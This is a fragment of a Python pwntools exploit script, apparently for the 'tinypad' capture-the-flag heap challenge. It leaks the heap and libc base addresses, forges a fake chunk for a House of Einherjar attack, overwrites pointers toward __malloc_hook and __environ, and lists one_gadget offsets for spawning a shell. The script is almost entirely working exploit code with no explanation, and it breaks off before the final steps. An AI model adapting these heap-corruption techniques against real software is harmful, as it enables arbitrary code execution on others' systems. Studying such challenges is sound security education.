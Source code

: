 ```python
def show(idx):
	p.recvuntil(" #   INDEX: "+str(idx)+'\n')
	p.recvuntil(" # CONTENT: ")
	

add(0xf0,'a'*0xf0)#idx1
add(0x60,'b'*0x60)#idx2
add(0xf8,'c'*0xf8)#idx3
add(0xf0,'d'*0xf0)#idx4


# leak libc and heap base
free(3)
free(1)

show(1)
heapbase=u64(p.recvuntil('\n')[1:-1].ljust(7,'\x00').rjust(8,'\x00'))-0x100
log.info(hex(heapbase))


show(3)
malloc_hook=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))-88-0x10
libcbase=malloc_hook-libc.sym['__malloc_hook']
log.info(hex(libcbase))


free(2)
free(4)

# House of einherjar

tinypad=0x602040

fake_chunk = tinypad+0x20
offset=heapbase-fake_chunk+0x50

add(0x48,'a'*0x48)#idx1
add(0xf0,'b'*0xf0)#idx2
add(0x100,'c'*0x100)#idx3
add(0xf0,'d'*0xf0)#idx4

#construct fake chunk
payload='a'*0x20+p64(0)+p64(0x101)+p64(fake_chunk)+p64(fake_chunk)
edit(1,payload)

free(1)
payload='a'*0x40+p64(offset)
add(0x48,payload)

free(2)

payload='a'*0x20+p64(0)+p64(0x101)+p64(malloc_hook+88+0x10)+p64(malloc_hook+88+0x10)
edit(3,payload)

#get shell

one_gadget=[0x45226,0x4527a,0xf03a4,0xf1247]

#reset heap addr
environ_addr=libcbase+libc.symbols['__environ']
log,info(hex(environ_addr))
payload='a'*(0x100-0x30)+p64(0x100)+p64(environ_addr)+p64(0x100)+p64(0x602148)

```